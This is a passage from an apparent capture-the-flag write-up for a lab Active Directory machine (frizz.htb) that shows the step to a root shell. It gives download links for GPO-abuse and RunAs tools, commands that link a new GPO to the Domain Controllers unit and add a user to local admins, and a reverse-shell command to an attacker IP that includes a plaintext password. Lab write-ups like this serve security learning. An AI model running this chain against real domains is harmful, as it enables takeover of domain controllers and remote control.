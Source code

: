 Then we can get the shell as `M.SchoolBus`

To get the root shell
We need to use 2 tools for here
`https://github.com/byronkg/SharpGPOAbuse/releases/download/1.0/SharpGPOAbuse.exe`
and 
`https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip`
```
# get root
New-GPO -Name "doesnotmatter"

#add newlink to domain controllers
New-GPLink -Name "doesnotmatter" -Target "OU=Domain Controllers,DC=frizz,DC=htb"

#add m.schoolbus to localadmin group
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName doesnotmatter

#force group policy update
gpupdate /force

#send yourself a revshell with admin rights:
.\RunasC.exe "M.SchoolBus" '!suBcig@MehTed!R' powershell.exe -r IP:9001
```